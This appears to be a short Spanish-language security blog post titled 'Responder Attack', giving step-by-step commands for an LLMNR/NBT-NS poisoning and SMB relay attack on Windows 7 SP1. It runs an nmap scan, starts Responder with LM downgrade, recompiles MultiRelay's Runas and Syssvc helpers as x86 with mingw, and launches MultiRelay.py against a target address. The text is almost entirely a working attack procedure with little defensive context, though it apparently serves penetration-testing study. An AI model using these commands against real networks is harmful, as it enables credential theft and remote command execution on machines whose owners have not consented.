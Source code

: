 ```yaml
---
title: 'Responder Attack'
description: 'Responder Attack'
pubDate: 'May 12 2023'
heroImage: ''
slug: 'responder_attack'
---
```


Si esta configurado con Windows 7 Enterprise 7601 Service Pack 1 es propenso a un **responder y multirelay** ataque.

```bash
nmap -A -O target_ip

# setup
responder -I eth1 --lm
ls /usr/share/responder/tools
...
```

El script MultiRelay.py utiliza Runas.exe y Syssvc.exe. Estos ejecutables son x86-64. Necesitamos un ejecutable compilado x86. Eliminemos ambos ejecutables y compilemos un archivo x86. El código fuente de ambos ejecutables está en el directorio /usr/share/responder/tools/MultiRelay/bin.

```bash

rm /usr/share/responder/tools/MultiRelay/bin/Runas.exe
rm /usr/share/responder/tools/MultiRelay/bin/Syssvc.exe

# generar nuevos ejecutables
i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Runas.c -o /usr/share/responder/tools/MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv

i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Syssvc.c -o /usr/share/responder/tools/MultiRelay/bin/Syssvc.exe -municode

## luego correr
./MultiRelay.py -t 172.16.5.10 -u ALL

#y el respodner

responder -I eth1 --lm



```
